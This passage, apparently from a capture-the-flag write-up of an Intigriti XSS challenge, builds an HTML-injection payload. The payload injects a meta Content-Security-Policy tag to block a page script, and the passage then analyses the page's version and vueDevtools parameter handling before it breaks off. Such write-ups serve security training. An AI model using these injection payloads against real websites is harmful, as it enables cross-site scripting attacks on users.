 ```
```

So our current payload now looks like:

```
?s=</title><meta http-equiv="Content-Security-Policy" content="script-src-elem 'sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D' 'sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D'">
```

> Note that we cannot inject additional `<script>` tags as it will still violate `script-src` (even if we add its hash into our injected `script-src-elem` CSP directive)

With the new payload, we are now presented with new errors:

```js
Refused to load the script 'https://challenge-1121.intigriti.io/challenge/vuejs.php' because it violates the following Content Security Policy directive: "script-src-elem 'sha256-Tz/iYFTnNe0de6izIdG+o6Xitl18uZfQWapSbxHE6Ic=' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz+oz+CtD7RE4=' 'sha256-DyAMQdY7I0oql5LiUzorG/UTv8qq5n3GbrvKmdtudyM='".
```

So we just have to whitelist the `*.intigriti.io` domain in our injected CSP. Then we are greeted with a similar error but for the `unpkg.com` domain. This is because the `vuejs.php` file redirects to `unpkg.com/vue` which contains the vue JS library.

```js
Refused to load the script 'https://unpkg.com/vue' because it violates the following Content Security Policy directive: "script-src-elem *.intigriti.io 'sha256-Tz/iYFTnNe0de6izIdG+o6Xitl18uZfQWapSbxHE6Ic=' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz+oz+CtD7RE4=' 'sha256-DyAMQdY7I0oql5LiUzorG/UTv8qq5n3GbrvKmdtudyM='".
```

Add `unpkg.com` into our whitelist as well. Now our injected CSP looks like:

```
?s=</title><meta http-equiv="Content-Security-Policy" content="script-src-elem *.intigriti.io unpkg.com 'sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D' 'sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D'">
```

We are now able to enter the inner `else` loop of the following script, since we have made `isProd` to be undefined:

```html
<script nonce="2960f5da344fa2446c95e40b1596305a">
    if (!window.isProd){
        let version = new URL(location).searchParams.get('version') || '';  //[1]
        version = version.slice(0,12);  // [2]
        let vueDevtools = new URL(location).searchParams.get('vueDevtools') || '';  // [3]
        vueDevtools = vueDevtools.replace(/[^0-9%a-z/.]/gi,'').replace(/^\/\/+/,''); // [4]

        if (version === 999999999999){  // [5]
            setTimeout(window.legacyLogger, 1000);
        } else if (version > 1000000000000){  // [6]
            addJS(vueDevtools, window.initVUE); // [7]
        } else{
            console.log(performance)
        }
    }
</script>
```

At [1] and [2], the `version` variable is defined to be the value from the `version` HTTP GET parameter. Only the first 12 characters are kept.
